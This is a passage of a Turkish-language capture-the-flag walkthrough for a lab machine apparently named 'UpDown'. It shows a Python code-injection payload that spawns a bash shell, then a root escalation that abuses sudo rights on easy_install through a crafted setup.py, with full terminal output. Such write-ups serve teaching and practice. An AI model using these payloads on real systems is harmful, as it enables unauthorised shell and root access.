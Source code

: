 developer kullanısına bash ile geçiş yapalım.

```bash
www-data@updown:/home/developer/dev$ ./siteisup
./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('/bin/bash -i')
__import__('os').system('/bin/bash -i')
developer@updown:/home/developer/dev$ whoami
whoami
developer
developer@updown:/home/developer/dev$
```

# <span style="color:#AA0E1C"><b># PrivEsc: developer → root</b></span>

```bash
developer@updown:/home/developer$ sudo -l
sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
developer@updown:/home/developer$
```

sudo ile easy_install dosyasını çalıştırabildiğimizi görüyorum.

[https://gtfobins.github.io/gtfobins/easy_install/](https://gtfobins.github.io/gtfobins/easy_install/)

```bash
developer@updown:/home/developer$ TF=$(mktemp -d)
developer@updown:/home/developer$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:/home/developer$ sudo easy_install $TF
# whoami
whoami
root
# id
id
uid=0(root) gid=0(root) groups=0(root)
#
```
